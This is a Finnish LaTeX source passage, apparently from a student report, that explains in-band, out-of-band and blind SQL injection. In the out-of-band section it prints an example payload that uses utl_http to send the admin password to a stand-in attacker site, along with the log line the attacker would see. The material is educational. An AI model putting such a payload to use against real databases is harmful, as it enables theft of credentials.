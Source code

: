 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
Kyseisessä koodiesimerkissä hakuun käytetään käyttäjän antamia parametreja ovat "käyttäjänimi" ja "salasana". Hyökkääjä voisi asettaa niistä kumpaan tahansa haitallisen SQL-lauseen.

Artikkelin "SQL-Injection is still alive"  mukaan SQL-injektioita on kolmea eri päätyyppiä päätyyppiä.

\begin{description}
\item[Inband injektio] \hfill \\
Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio.
Esimerkiksi jos sovelluksessa on mahdollista hakea tietoa jollain hakusanalla ja saada tuloksena kaikki haun tiedot. 

\item[Out-of-band injektio] \hfill \\
Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
	
\begin{lstlisting}[language=sql]
utl_http('http://www.hyokkaajansivu.fi/injections/' || 
	SELECT password
	FROM User 
	WHERE username = 'admin'
)
\end{lstlisting}
Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:

\textbf{GET "/injections/admininpassword", 200}

Tällöin hyökkääjä saa selville käyttäjän admin salasanan.

\item[Sokea injektio] \hfill \\
Sokea injektio:
Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja verrata vaikutuksia sovelluksessa.


\end{description}


\subsection{SQL-Injektion toteutus käytännössä}
\pagebreak
\end{document}
